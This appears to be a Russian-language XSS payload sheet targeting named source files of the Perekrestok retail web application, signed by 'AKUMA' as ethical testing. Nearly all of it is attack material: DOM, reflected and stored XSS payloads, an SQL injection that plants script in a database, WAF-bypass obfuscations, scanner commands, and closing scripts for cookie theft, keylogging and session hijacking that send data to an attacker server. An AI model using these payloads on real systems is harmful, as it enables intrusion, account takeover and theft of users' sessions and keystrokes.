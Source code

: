 # XSS Testing Payloads для Perekrestok Web

## 1. DOM-Based XSS - Window.location.origin

### Векторы атаки для BellNotification.tsx и LinksSandbox.tsx:
```javascript
// Через data: URL
javascript:location.href='data:text/html,<script>alert("AKUMA XSS!")</script>'

// Через фрагмент URL
javascript:void(0)#<script>alert('DOM XSS')</script>

// Для тестирования origin pollution
javascript:Object.defineProperty(window.location,'origin',{value:'javascript:alert("AKUMA")//'})
```

### Тест в браузере:
```
http://your-domain.com/path#<img src=x onerror=alert('DOM_XSS_AKUMA')>
```

## 2. DeepLink XSS (join-by-referral.html, deep-link.html)

### URL параметры для тестирования:
```
?deepLink=javascript:alert('AKUMA_DEEPLINK_XSS')
?deepLink=data:text/html,<script>alert('DeepLink compromised by AKUMA')</script>
?deepLink=vbscript:msgbox("XSS_AKUMA")
```

### Полный тест URL:
```
http://your-domain.com/web-mystery-shopper/deep-link.html?deepLink=javascript:alert('HACKED_BY_AKUMA')
```

## 3. Stored XSS - getLargeEdadealFeed.ts

### SQL Injection + XSS комбо:
```sql
'; INSERT INTO offers (data) VALUES ('<script>alert("AKUMA_STORED_XSS")</script>'); --
```

### JSON Payload для базы:
```json
{
  "catalog": "<script>alert('AKUMA STORED XSS')</script>",
  "offers": ["<img src=x onerror=alert('Database XSS')>"]
}
```

## 4. Reflected XSS - req.ip в index.tsx

### X-Forwarded-For хедеры:
```
X-Forwarded-For: <script>alert('AKUMA_IP_XSS')</script>
X-Real-IP: <img src=x onerror=alert('IP_REFLECTED_XSS')>
X-Client-IP: "><script>alert('Reflected by AKUMA')</script>
```

### cURL тестирование:
```bash
curl -H "X-Forwarded-For: <script>alert('AKUMA')</script>" http://your-domain.com/status
```

## 5. dangerouslySetInnerHTML Payloads

### Для React компонентов:
```javascript
<img src=x onerror=alert('AKUMA_REACT_XSS')>
<svg onload=alert('dangerouslySetInnerHTML_PWNED')>
<iframe src="javascript:alert('AKUMA_IFRAME_XSS')">
<input onfocus=alert('FOCUS_XSS') autofocus>
```

### Bypass санитизации:
```javascript
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,39,65,75,85,77,65,39,41))">
<script>setTimeout('alert("AKUMA_TIMEOUT")',1)</script>
```

## 6. Advanced Payloads для обхода WAF

### Обфусцированные:
```javascript
<svg/onload=alert(String.fromCharCode(65,75,85,77,65))>
<img src=x:alert(alt) onerror=eval(src) alt=AKUMA>
<iframe srcdoc="<script>parent.alert('AKUMA_IFRAME')</script>">
```

### Двойное кодирование:
```
%253Cscript%253Ealert(%2522AKUMA%2522)%253C/script%253E
```

## 7. Полезные инструменты для тестирования:

### Burp Suite расширения:
- XSS Validator
- Reflected Parameters
- XSStrike
- DOM Invader

### CLI инструменты:
```bash
# XSSHunter payload
<script src="https://yoursub.xss.ht"></script>

# Dalfox сканирование
echo "http://target.com" | dalfox pipe

# XSStrike
python3 xsstrike.py -u "http://target.com/page?param=test"
```

## 8. Эксплуатация найденных уязвимостей:

### Cookie Theft:
```javascript
<script>
fetch('http://your-server.com/steal?cookies=' + encodeURIComponent(document.cookie));
</script>
```

### Keylogger:
```javascript
<script>
document.addEventListener('keyup', function(e) {
    fetch('http://your-server.com/keys?key=' + e.key);
});
</script>
```

### Session Hijacking:
```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://your-server.com/session', true);
xhr.send(JSON.stringify({
    cookies: document.cookie,
    localStorage: localStorage,
    sessionStorage: sessionStorage
}));
</script>
```

---
**Создано AKUMA для этичного тестирования безопасности** 🔥
**"Если система не защищена от дурака, значит дурак умнее системы!" - Закон Акумы**
